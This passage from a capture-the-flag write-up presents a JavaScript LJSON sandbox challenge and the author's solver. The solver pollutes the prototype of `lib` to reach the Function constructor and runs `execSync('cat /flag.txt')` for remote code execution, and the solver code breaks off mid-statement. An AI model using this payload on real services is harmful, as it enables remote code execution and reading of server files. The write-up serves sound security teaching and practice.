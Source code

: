 ```javascript title="lib.js"
const lib = {
  "+": (x, y) => x + y,
  "-": (x, y) => x - y,
  "*": (x, y) => x * y,
  "/": (x, y) => x / y,
  ",": (x, y) => (x, y),
  "for": (l, r, f) => {
    for (let i = l; i < r; i++) {
      f(i);
    }
  },
  "set": (map, i, value) => {
    map[i] = value;
    return map[i];
  },
  "get": (map, i) => {
    return typeof i === "number" ? map[i] : null;
  },
  "self": () => lib,
};

module.exports = lib;
```

```javascript title="service.js"
const LJSON = require("ljson");
const lib = require("./lib.js");

const sequence = process.argv[2];
const n = parseInt(process.argv[3]);

console.log(LJSON.parseWithLib(lib, sequence)(n));
```

The flag location is `/flag.txt` in the remote server.

### Solution

My solution is to gain RCE by injecting a function into the prototype of `lib`.

```javascript title="solver/index.js (comments are added)"
/* snip */

// Reads `/flag.txt`
const code =
  'return global.process.mainModule.constructor._load("child_process").execSync("cat /flag.txt").toString()';

let evilSequence = LJSON.stringify(($, n) =>
  $(
    ",",
    // Makes the prototype of `$("self")` into `Function.prototype`
    $("set", $("self"), "__proto__", $),
    // Executes `code` => RCE
    $("constructor", code)()
  )
);

const params = new URLSearchParams({
  sequence: evilSequence,
  n: 0,
});

const main = async () => {
  const text = await (
```

[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).
[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/